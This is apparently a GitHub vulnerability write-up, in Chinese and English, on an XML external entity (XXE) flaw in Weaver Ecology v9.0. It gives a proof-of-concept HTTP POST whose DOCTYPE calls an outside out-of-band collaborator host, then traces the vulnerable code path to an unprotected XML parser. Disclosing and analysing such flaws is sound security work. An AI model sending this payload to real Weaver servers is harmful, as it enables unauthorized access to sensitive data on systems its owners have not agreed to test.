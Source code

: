 # Weaver Ecology v9.0 xxe漏洞
## 官方网站：https://www.weaver.com.cn/e9/

### 漏洞poc:
```
POST /rest/ofs/ProcessOverRequestByXml HTTP/1.1
Host: xxxx
Content-length:180

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE syscode SYSTEM "http://ykmn6o5ibhzx89t6jqqwf4udc4iu6j.oastify.com">
<M><syscode>&send;</syscode></M>
```
![图片](https://github.com/unununion/unununion/assets/142591902/de594667-16b5-4519-aee5-6120c917427d)



### 漏洞成因:
远程未经授权的攻击者可以绕过现有的防护来实现XML外部实体注入，最终可能导致敏感信息泄露，进一步与其他漏洞合作可能会造成RCE等危害。

Remote unauthorized attackers can bypass existing protections to achieve XML external entity injection, which may eventually lead to the disclosure of sensitive information, and further cooperation with other vulnerabilities may cause harm such as RCE.

### 具体代码

* 1.ProcessOverRequestByXml
![图片](https://github.com/unununion/unununion/assets/142591902/a36617ca-4cbc-4533-aa63-0a9d491a6a23)

* 2.ofsTodoDataManagerNew.processOverRequestByXml
![图片](https://github.com/unununion/unununion/assets/142591902/5d8deaec-d8fa-45eb-9980-69737ed8b804)


* 3.OfsUtils.mapToXml
![图片](https://github.com/unununion/unununion/assets/142591902/2555ba53-9099-4ca8-93cd-5aa2a9f75c89)

* 4.OfsUtils.xmltoMap
![图片](https://github.com/unununion/unununion/assets/142591902/ac1bc4df-7eec-4d3c-af49-ecd43596a44c)

* 5.SecurityMethodUtil.clearEntity  just filter entity
![图片](https://github.com/unununion/unununion/assets/142591902/0ced10f2-784b-48ac-a2e6-c6b612689579)


* 6.beacuse of DocumentHelper.parseText
  
DocumentHelper.parseText(PARAM). <strong>Vul is here.</strong> this XML entity defenses are not configured correctly
